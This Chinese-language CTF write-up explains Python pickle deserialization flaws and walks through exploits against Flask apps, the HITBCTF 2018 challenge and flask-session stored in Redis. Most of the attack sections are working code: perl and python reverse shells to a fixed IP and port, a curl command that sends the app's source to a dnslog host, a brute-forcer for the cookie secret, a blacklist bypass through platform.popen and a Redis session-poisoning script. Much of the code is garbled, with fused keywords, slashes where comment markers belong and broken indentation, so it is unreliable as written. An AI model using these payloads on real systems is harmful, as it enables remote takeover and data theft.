

## 0x00 Python反序列化漏洞介绍

之前在CTF的比赛中遇到了Python的反序列化问题，所以就整合了一下Python反序列化的内容

* 什么是序列化

在程序运行的过程中，所有的变量都是在内存中，但是当程序结束之后变量所占用的内存就被操作系统全部回收。但是我们把内存中的数据导入到磁盘中，下次运行的时候再载入可以确保内存的一致性。我们把变量从内存中变成可存储或传输的过程称之为序列化，反之就是反序列化

* 序列化的应用场景

数据结构网络传输，session存储，cache存储，或者配置文件上传，参数接收

* Python中可以被序列化/反序列化的数据

None, True, 和 False
整形、浮点、复数
strings, bytes, bytearrays
元组, 列表, 集合, 和 只包含可序列化对象的字典
定义在模块顶层的函数（lambda表达式不可以）
定义在模块顶层的内建函数
定义在模块顶层类

* 反序列化漏洞的危害

最常见的以及危害最深的就是RCE，其他还包括远程文件的读取和写入等

## 0x01 Python中序列化的实现方式

### pickle/cPickle

pickle模块对Python对象执行序列化和反序列化最常利用到的模块。Python的任何对象都可以通过它永久保存到硬盘文件。Pickle实际上是先把Python对象（list、dict、class等）转换为字符流。cPickle是pickle的C模块，速度上比pickle快了很多，但在python3之后cpickle合并到了pickle中去了


pickle主要提供了四个函数用来进行序列化/反序列化操作
序列化函数
dump和dumps以及

**pickle.dump(obj, file, protocol=None, *, fix_imports=True)**，最重要的是前两个参数，该方法将obj对象序列化为字节（bytes）输出到file文件中。
 
**pickle.dumps(obj, protocol=None, *, fix_imports=True)**，该方法将obj对象序列化并返回一个bytes对象（在Python2中名字叫str）。


反序列化函数
load和loads

**pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict")**，从一个对象文件中读取序列化数据，将其反序列化之后返回一个对象。 
**pickle.loads(bytes_object, *, fix_imports=True, encoding="ASCII", errors="strict")**，将一个bytes对象反序列化并返回一个对象。

**pickle模块还提供一个Pickler类和Unpickler类，用法类似，不过是只能从文件中读取和输出到文件**

class pickle.Pickler(file, protocol=None,*,fix_imports=True),Pickler类有dump()方法。Pickler(file, protocol).dump(obj) 实现的功能跟 pickle.dump() 是一样的

class pickle.Unpickler(file, *,fix_imports=True, encoding="ASCII". errors="strict"),Pickler类有load()方法。
Unpickler(file).load() 实现的功能跟 pickle.load() 是一样的

利用函数序列化/反序列化的代码
```
*import*pickle

/#序列化数组/
hack_list = [*"shadow"*, *"s1riu5"*, *"pickle"*]

file_seri = open(*"mess.txt"*, *"wb"*)


seri_list = pickle.dumps(hack_list)
print(seri_list)

result = pickle.dump(hack_list, file_seri)
file_seri.close()

temp = pickle.loads(seri_list)

dji = open(*"mess.txt"*, *"rb"*)
temp2 = pickle.load(dji)

print(temp)

print(temp2)

pickler_file = open(*"shadow"*, *"wb"*)

second_seri = pickle.Pickler(pickler_file).dump(hack_list)
pickler_file.close()

unpickler_file = open(*"shadow"*, *"rb"*)

result_unpickler = pickle.Unpickler(unpickler_file).load()

print(result_unpickler)
unpickler_file.close()

```


### json实现

pickle方法是Python中专有的序列化模块，和其他平台多少有点兼容问题，json作为更为标准的格式，具有更好的可读性（pickle是二进制数据）和跨平台性

### shelve模块

该模块不是很常用


## 0x02 反序列化漏洞原理

官方文档中说过，pickle是个不安全的模块，永远别去反序列化不信任的数据。

这一切都是因为__reduce__ 魔术方法，它在序列化的时候会完全改变被序列化的对象.类似于php的wakeup魔术方法，python中的__reduce__，可以在被反序列化的时候执行.类似于php的wakeup魔术方法，python中的__reduce__，可以在被反序列化的时候执行，而pickle.loads是会解决import 问题，对于未引入的module会自动尝试import。这也意味着可以导入命令执行的包进行操作

```
*import*pickle
*import*os

*class*eval_code(object):

    *def*__reduce__(self):
        *return*(os.system,(*'whoami'*,))


eval_whoami = eval_code()

mess = pickle.dumps(eval_whoami)

print(mess)

shadow = pickle.loads(mess)

```


## 0x03 漏洞案例

案例一: 以P神搭建的环境为例
```
import pickle
import base64
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

命令执行

```
*import*pickle
*import*os
*import*base64
*import*requests

*class*eval_code(object):

    *def*__reduce__(self):
        *return*(os.system,(*'touch /1.txt'*,))


eval_whoami = eval_code()
shadow = base64.b64encode(pickle.dumps(eval_whoami))

*print*([pickle.dumps(eval_whoami)])
*print*(shadow)

mess = requests.get(*"http://127.0.0.1"*, cookies=dict(user=shadow))
*print*(mess.content)


```


反弹shell
现在本地监听
```
socat tcp-listen:6080 -
```

然后执行exp

```
*import*pickle
*import*os
*import*requests
*import*base64
*import*commands

*class*exp(object):
    *def*__reduce__(self):
        s = *""" perl -e 'use Socket;$i="172.168.46.145";$p=6080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");}'"""*
*        return*(os.system, (s,))

        /# s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.168.46.45",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""/
/        # return (commands.getoutput, (s,))/

e = exp()
s = pickle.dumps(e)

*print*([s])
shadow = base64.b64encode(s)

mess = requests.get(*"http://127.0.0.1"*, cookies=dict(user=shadow))
*print*(mess.content)


```


利用dnslog回显信息

```
*import*pickle
*import*os
*import*requests
*import*base64


*class*exp(object):
    *def*__reduce__(self):
        s = *""" curl test.dnslog.link/`cat /app/app.py|base64|tr '\n' '-'` """*
*        return*(os.system, (s,))

        /# s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.168.46.45",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""/
/        # return (commands.getoutput, (s,))/

e = exp()
s = pickle.dumps(e)

*print*([s])
shadow = base64.b64encode(s)

mess = requests.get(*"http://127.0.0.1"*, cookies=dict(user=shadow))
*print*(mess.content)

```


案例二:HITBCTF 2018

```

*from*flask *import*Flask, request, make_response, redirect, url_for, session
*from*flask *import*render_template, flash, redirect, url_for, request
*from*werkzeug.security *import*safe_str_cmp
*from*base64 *import*b64decode *as*b64d
*from*base64 *import*b64encode *as*b64e
*from*hashlib *import*sha256
*from*cStringIO *import*StringIO
*import*random
*import*string

*import*os
*import*sys
*import*subprocess
*import*commands
*import*pickle
*import*cPickle
*import*marshal
*import*os.path
*import*filecmp
*import*glob
*import*linecache
*import*shutil
*import*dircache
*import*io
*import*timeit
*import*popen2
*import*code
*import*codeop
*import*pty
*import*posixfile

SECRET_KEY = *'you will never guess'*

*if not*os.path.exists(*'.secret'*):
    *with*open(*".secret"*, *"w"*) *as*f:
        secret = *''*.join(random.choice(string.ascii_letters + string.digits)
                         *for*x *in*range(4))
        f.write(secret)
*with*open(*".secret"*, *"r"*) *as*f:
    cookie_secret = f.read().strip()

app = Flask(__name__)
app.config.from_object(__name__)

black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]


@app.before_request
*def*count():
    session[*'cnt'*] = 0


@app.route(*'/'*)
*def*home():
    remembered_str = *'Hello, here\'s what we remember for you. And you can change, delete or extend it.'*
new_str = *'Hello fellow zombie, have you found a tasty brain and want to remember where? Go right here and enter it:'*
location = getlocation()
    *if*location == False:
        *return*redirect(url_for(*"clear"*))
    *return*render_template(*'index.html'*, txt=remembered_str, location=location)


@app.route(*'/clear'*)
*def*clear():
    *print*(*"Reminder cleared!"*)
    response = redirect(url_for(*'home'*))
    response.set_cookie(*'location'*, max_age=0)
    *return*response


@app.route(*'/reminder'*, methods=[*'POST'*, *'GET'*])
*def*reminder():
    *if*request.method == *'POST'*:
        location = request.form[*"reminder"*]
        *if*location == *''*:
            *print*(*"Message cleared, tell us when you have found more brains."*)
        *else*:
            *print*(*"We will remember where you find your brains."*)
        location = b64e(pickle.dumps(location))
        cookie = make_cookie(location, cookie_secret)
        response = redirect(url_for(*'home'*))
        response.set_cookie(*'location'*, cookie)
        *print 'location'*
*        return*response
    location = getlocation()
    *if*location == False:
        *return*redirect(url_for(*"clear"*))
    *return*render_template(*'reminder.html'*)


*class*FilterException(Exception):
    *def*__init__(self, value):
        super(FilterException, self).__init__(
            *'The callable object {value} is not allowed'*.format(value=str(value)))


*class*TimesException(Exception):
    *def*__init__(self):
        super(TimesException, self).__init__(
            *'Call func too many times!'*)


*def*_hook_call(func):
    *def*wrapper(*args, **kwargs):
        session[*'cnt'*] += 1
        *print*session[*'cnt'*]
        *print*args[0].stack
        *for*i *in*args[0].stack:
            *if*i *in*black_type_list:
                *raise*FilterException(args[0].stack[-2])
            *if*session[*'cnt'*] > 4:
                *raise*TimesException()
        *return*func(*args, **kwargs)
    *return*wrapper


*def*loads(strs):
    reload(pickle)
    files = StringIO(strs)
    unpkler = pickle.Unpickler(files)
    *print*strs,files,unpkler
    unpkler.dispatch[pickle.REDUCE] = _hook_call(
        unpkler.dispatch[pickle.REDUCE])
    *return*unpkler.load()


*def*getlocation():
    cookie = request.cookies.get(*'location'*)
    *if not*cookie:
        *return ''*
(digest, location) = cookie.split(*"!"*)
    *print*(digest, location),calc_digest(location, cookie_secret)
    *if not*safe_str_cmp(calc_digest(location, cookie_secret), digest):
        *print*(*"Hey! This is not a valid cookie! Leave me alone."*)

        *return*False
    location = loads(b64d(location))
    *return*location


*def*make_cookie(location, secret):
    *return "%s!%s"*% (calc_digest(location, secret), location)


*def*calc_digest(location, secret):
    *return*sha256(*"%s%s"*% (location, secret)).hexdigest()


*if*__name__ == *'__main__'*:

    app.run(host=*"0.0.0.0"*, port=80)


```


漏洞的根源在
```

*def*loads(strs):
    reload(pickle)
    files = StringIO(strs)
    unpkler = pickle.Unpickler(files)
    *print*strs,files,unpkler
    unpkler.dispatch[pickle.REDUCE] = _hook_call(
        unpkler.dispatch[pickle.REDUCE])
    *return*unpkler.load()

```

而漏洞的调用顺序是
**reminder -> getlocation -> loads**

但是这边有一个条件

在这里面location和digest都可以通过cookie调用，但是cookie_secret是不知道的，追踪了一下
发现cookie_secret中的值是四位包含了大小写字母和数字的字符串，可以通过已知条件进行爆破
首先我们发送一下luffy看一下返回的cookie


爆破cookie_secret
```
*import*string
*import*time
*from*hashlib *import*sha256
*import*sys

char = string.ascii_letters + string.digits


time_start=time.time()

*for*i *in*char:
    *for*j *in*char:
        *for*x *in*char:
            *for*y *in*char:
                flag = i+j+x+y

                sha = sha256(*"%s%s"*% (*"Vmx1ZmZ5CnAwCi4="*, flag)).hexdigest()

                *if*sha == *"23d325e6647915ee00c719b1b51275d18221453f53917403730a0dd4ff5ddcee"*:
                    *print*(flag)

                    time_end = time.time()

                    *print*time_end - time_start
                    sys.exit()


```


除此之外，这边还有一个黑名单
**black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]**

利用platform库可以绕过

```
*import*pickle
*import*base64
*from*hashlib *import*sha256
*import*platform
*import*requests

*class*eval_code(object):

    *def*__reduce__(self):
        /#platform.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")/

*return*(platform.popen,(*"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.168.46.145\",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"*,))


eval_whoami = eval_code()
location = base64.b64encode(pickle.dumps(eval_whoami))

digest = sha256(*"%s%s"*% (location, *"Wtu9"*)).hexdigest()

cookie = *"%s!%s"*% (digest, location)


mess = requests.get(*"http://127.0.0.1:81/reminder"*, cookies=dict(location=cookie))
*print*(mess.content)

```


案例三: flask-session+redis漏洞
session存取过程存在序列化和反序列化的过程。
session在Redis中以键值对（key，value）的形式存储。假设我们能够操纵Redis中的键值对，将某个key的值设为我们序列化后恶意代码（比如上面反弹shell的代码样例），然后在将自身的cookie设置为该key，在访问网站的时候，服务端会对于根据key查找value并进行反序列化，进而反弹shell。
先看一下session


然后看一下redias的内容



制作代码

```
*import*pickle
*import*platform
*import*redis

*class*eval_code(object):

    *def*__reduce__(self):
        /#platform.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")/

*return*(platform.popen,(*"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.168.46.145\",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"*,))


eval_whoami = eval_code()

payload = pickle.dumps(eval_whoami)


r = redis.Redis(host=*'127.0.0.1'*,port=6379)
r.set(*'sessionluffy6a3-cedc-4c50-a66a-57f5124a6f2a'*,payload)

```


[Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.polaris-lab.com/index.php/archives/178/)

[Python反序列化漏洞的花式利用](http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/)

[Pickle 反序列化漏洞](https://www.jianshu.com/p/8fd3de5b4843)

[利用DNSlog回显Weblogic(CVE-2017-10271) 漏洞执行命令结果](http://www.freebuf.com/column/158579.html)

[HITBCTF 2018](http://www.cnblogs.com/wfzWebSecuity/p/9401677.html)

[Python反序列化安全问题](https://segmentfault.com/a/1190000013099825)


